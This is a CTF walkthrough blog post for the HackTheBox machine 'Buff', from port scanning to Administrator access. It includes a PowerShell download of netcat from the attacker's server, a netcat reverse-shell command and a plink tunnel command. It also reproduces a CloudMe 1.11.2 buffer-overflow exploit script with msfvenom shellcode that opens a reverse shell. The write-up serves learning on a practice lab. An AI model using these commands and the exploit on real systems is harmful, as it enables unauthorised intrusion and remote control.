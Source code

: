 ```yaml
---
layout: post
title: HackTheBox Buff walktthrough
gh-repo: c00rni/c00rni.github.io
gh-badge: [star, fork, follow]
tags: [enumeration, hackthebox, netcat, plink, powershell, windows, msfvenom]
comments: true
---
```


Buff is a machine on [HackTheBox](https://www.hackthebox.eu/) platform with the IP address 10.10.10.198. The machine is vulnerable to multiple CVE which are easy to find. The machine has been rated Easy by the community. When I wrote this walkthrough, Buff wasn't retired yet. Please don't cheat and solve the box by yourself if you didn't get root flag. The purpose of HacktTheBox is to learn and trying by yourself is the best way to do it.

![info_cart.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/3da2ee768f774733bb773b4d7ce5b828.png)


## Post scan
Well, it started with several nmap scan to enumerate ports.


![fast_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/8339a19328d74135ac616fd838f2a1ca.png)

I browser to the HTTP proxy and did a full TCP port scan in the background in case I've been missing something important.



![full_nmap.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/547e0902b8a04e2ca0c3a96acaa966fe.png)


Did a last scan to enumerate the version of the services I found.



![detail_nmap.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/348e061499bc40cc8f40b2e155662970.png)


![index_page.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/47b1d92d2c4d4785b3d3f9b5002627d4.png)

The first thing I tried to find were the technologies they used and their versions so I can search for CVE later. What does the application do? What language is it written in? What server software is the application running on? Do they use a CMS ?

Most of those questions were answered by poking around.

![contact_page.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/2e368b62d2cf4caebe60de2e5b9ec0a3.png)


![inspectorpng.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/155c34a5c1714eb4a049befe3ff90dbe.png)

## Foothold

I googled "Gym management Software 1.0" for exploits and get an unauthenticated [Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/48506).

![shaun_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/6c57f1e511e74ee5ad430fe7597fe642.png)

Now I can execute command on the server as user Shaun but it's not really convenient because I don't have proper shell. Shaun is an unprivileged user and I need to get an Administrator account to fully control the machine. The next step would be to enumerate the machine to find a way to elevate my privilege but let's get a shell first.

### Upload files 

I created a python web server to extend the folder of the file I wanted to upload on the server.

![local_http_server.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/9e8822b28ea047eebc5fce2fbad00451.png)

Executed the command below to download the file from my machine with the right IP address.
```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://YOUR_IP_ADDRESS:8000/nc.exe', 'C:\xampp\htdocs\gym\upload\nc.exe')
```
I upload the first version of Netcat on the server since this version has an option to execute commands.

### Reverse shell

Opened the port 1234 for incoming connection and execute `nc.exe X.X.X.X 1234 -e cmd.exe` with your ip address to establish the reverse shell connection.

![listen_1234.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/9d1a53b7cddc40cfb5c063c935153ec8.png)



### System Information gathering

Ok. So I'm logged in windows x64 machine as Shaun. Let's begin or research from Shaun home directory to see what's there

```cmd
c:\Users\shaun>dir *.txt or *.exe /s /b
...
c:\Users\shaun\Desktop\user.txt
...
c:\Users\shaun\Downloads\CloudMe_1112.exe                                   
```

The command `dir` is used to list files a directory in cmd process. I used the option below to list important files.
- *.txt or *.exe : search for text and executable banry files 
- /s : search recursivly 
- /b : display only the path

## Privilege escalation

I googled "CloudMe_1112.exe" and found this executable were vulnerable to buffer overflow. Since we are in a CTF game, this information probably lead to something...

The executable open the port 8888 on the loopback interface (127.0.0.1), unfortunately I couldn't access this port from my kali machine. I download the [lastest version of plink.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) which is the command line tool of putty and executed the command below to create a SSH tunnel and get access to the port 8888 from my machine.


`plink.exe -ssh -l kali -pw YOUR_PASSWORD -R YOUR_IP_ADDRESS:8888:127.0.0.1:8888 YOUR_IP_ADDRESS`

### Exploitation 

I downloaded a [POC from exploit-db](https://www.exploit-db.com/exploits/48389) and modified the payload. 

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe YOUR_IP_ADDRESS 4444 -e cmd.exe' -b '\x00\x0A\x0D' -f python  -v payload <--- Command I used to create the payload 
payload = b"\xda\xd3\xd9\x74\x24\xf4\xba\x7a\xe7\x80\xb2\x5e"		#<--- Modified payload
payload += b"\x33\xc9\xb1\x3e\x83\xc6\x04\x31\x56\x14\x03\x56"
payload += b"\x6e\x05\x75\x4e\x66\x4b\x76\xaf\x76\x2c\xfe\x4a"
payload += b"\x47\x6c\x64\x1e\xf7\x5c\xee\x72\xfb\x17\xa2\x66"
payload += b"\x88\x5a\x6b\x88\x39\xd0\x4d\xa7\xba\x49\xad\xa6"
payload += b"\x38\x90\xe2\x08\x01\x5b\xf7\x49\x46\x86\xfa\x18"
payload += b"\x1f\xcc\xa9\x8c\x14\x98\x71\x26\x66\x0c\xf2\xdb"
payload += b"\x3e\x2f\xd3\x4d\x35\x76\xf3\x6c\x9a\x02\xba\x76"
payload += b"\xff\x2f\x74\x0c\xcb\xc4\x87\xc4\x02\x24\x2b\x29"
payload += b"\xab\xd7\x35\x6d\x0b\x08\x40\x87\x68\xb5\x53\x5c"
payload += b"\x13\x61\xd1\x47\xb3\xe2\x41\xac\x42\x26\x17\x27"
payload += b"\x48\x83\x53\x6f\x4c\x12\xb7\x1b\x68\x9f\x36\xcc"
payload += b"\xf9\xdb\x1c\xc8\xa2\xb8\x3d\x49\x0e\x6e\x41\x89"
payload += b"\xf1\xcf\xe7\xc1\x1f\x1b\x9a\x8b\x75\xda\x28\xb6"
payload += b"\x3b\xdc\x32\xb9\x6b\xb5\x03\x32\xe4\xc2\x9b\x91"
payload += b"\x41\x3c\xd6\xb8\xe3\xd5\xbf\x28\xb6\xbb\x3f\x87"
payload += b"\xf4\xc5\xc3\x22\x84\x31\xdb\x46\x81\x7e\x5b\xba"
payload += b"\xfb\xef\x0e\xbc\xa8\x10\x1b\xff\x74\xb3\xdc\x61"
payload += b"\xe5\x3b\x6d\x3e\x9d\xcf\xe9\xd1\x3e\x43\xae\x4a"
payload += b"\xb9\xce\x12\xe0\x49\x7d\xc4\x6b\xcd\x21\x74\x0f"
payload += b"\x23\xbf\xf0\xaa\x1b\x0e\x31\x1b\x6a\x40\x1f\x52"
payload += b"\xb8\x8e\x66\xb4\xf4\xfa\xac\x80\xd4\x2f\xa8\xc8"
payload += b"\x77\x5d\x56\x27\x12\xe5\xf3\x37"
overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```

I executed it and got a shell as Administrator.


![root_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/c2ee9ee649634840b89d70f9ca4b2ccd.png)

And that’s how I did Buff. This is my first walkthrough, others will be coming soon. I hope you learn something. See you till the next write up.

